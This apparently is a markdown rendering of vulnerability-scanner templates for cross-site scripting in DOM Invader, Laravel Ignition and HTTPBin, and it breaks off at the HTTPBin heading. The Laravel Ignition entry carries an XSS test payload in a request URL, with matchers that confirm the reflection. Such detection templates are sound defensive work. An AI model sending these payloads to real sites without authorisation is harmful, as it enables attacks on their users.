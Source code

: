 # DOM Invader - Cross-Site Scripting

## Description

- DOM Invader contains a cross-site scripting vulnerability in Sources & Sinks functionality.
- severity - high
- tags - xss,file

---

# Laravel Ignition - Cross-Site Scripting

## Description

- Laravel Ignition contains a cross-site scripting vulnerability when debug mode is enabled.

- severity - high
- tags - laravel,xss,ignition

## Requests

- Method - GET

### URL

- {{BaseURL}}/\_ignition/scripts/-->\<svg%20onload=alert(document.domain)>

### Matchers

**Type - word**

- part - body
- words
  1. Undefined index: -->\<svg onload=alert(document.domain)> in file

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 500

---

# HTTPBin - Cross-Site Scripting

## Description
